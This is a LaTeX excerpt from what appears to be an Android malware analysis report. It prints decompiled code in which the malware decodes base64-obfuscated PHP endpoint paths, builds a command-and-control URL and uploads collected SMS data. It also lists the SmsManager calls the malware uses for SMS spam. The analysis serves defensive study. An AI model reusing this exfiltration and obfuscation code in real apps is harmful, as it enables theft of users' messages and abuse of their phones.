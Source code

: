 \documentclass[10pt,titlepage]{article}
\begin{document}
\begin{lstlisting}[label=activitygetssmsfddo,caption=
Function \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.fddo} builds the target url and calls the \textit{intR.fddo()} function which initiates the data upload.,frame=tb]
 public String fddo(Context context, String str, String str2) {
        String str3;
        String str4 = "PHRhZz48L3RhZz4="; // <tag></tag>
        try {
            if (m435catch(context)) {
                naqsl.ebxcb.exu.fddo.Cint intR = new naqsl.ebxcb.exu.fddo.Cint();
                String str5 = "";
                if (str.equals(m430int("MQ=="))) { // 1
                    str5 = m430int("L28xby9hMy5waHA="); // /o1o/a3.php
                }
                if (str.equals(m430int("Mg=="))) { // 2
                    str5 = m430int("L28xby9hNC5waHA="); // /o1o/a4.php
                }
                [...]
                if (str.equals(m430int("MjU="))) { // 25
                    str5 = m430int("L28xby9hMjUucGhw"); // /o1o/a25.php
                }
                try {
                    String fddo2 = fddo(context, m430int("dXJs")); // url
                    if (fddo2 == null) {
                        fddo2 = this.f602fddo.f473for;
                    }
                    StringBuilder sb = new StringBuilder();
                    sb.append(fddo2);
                    sb.append(str5);
                    str3 = intR.fddo(sb.toString(), str2);
\end{lstlisting}


This attack will be started from the \textit{naqsl.ebxcb.exu.ServiceCommands} Service (read more in chapter \ref{featureselection}).

\newpage
\subsubsection{SMS SPAM} \label{smsspam}
This is the full list of API calls of the malware to the \textit{android.telephony.SmsManager}. The list tells that the malware is interacting with the \textit{android.telephony.SmsManager} and is going to send SMS messages.

\begin{lstlisting}[label=smsmanagersendmultiparttextmessage,caption=List of API calls to \textit{android.telephony.SmsManager} showing that the malware create messages and sends them via the \textit{android.telephony.SmsManager.sendMultipartTextMessage} call.,frame=tb]
Landroid/telephony/SmsManager;->divideMessage(Ljava/lang/String;)Ljava/util/ArrayList;
Landroid/telephony/SmsManager;->getDefault()Landroid/telephony/SmsManager;
Landroid/telephony/SmsManager;
      ->sendMultipartTextMessage(Ljava/lang/String;
                                Ljava/lang/String;
                                Ljava/util/ArrayList;
                                Ljava/util/ArrayList;
                                Ljava/util/ArrayList;
Landroid/telephony/SmsMessage;->createFromPdu([B)Landroid/telephony/SmsMessage;
Landroid/telephony/SmsMessage;->getDisplayMessageBody()Ljava/lang/String;
Landroid/telephony/SmsMessage;->getDisplayOriginatingAddress()Ljava/lang/String;
\end{lstlisting}
\end{document}
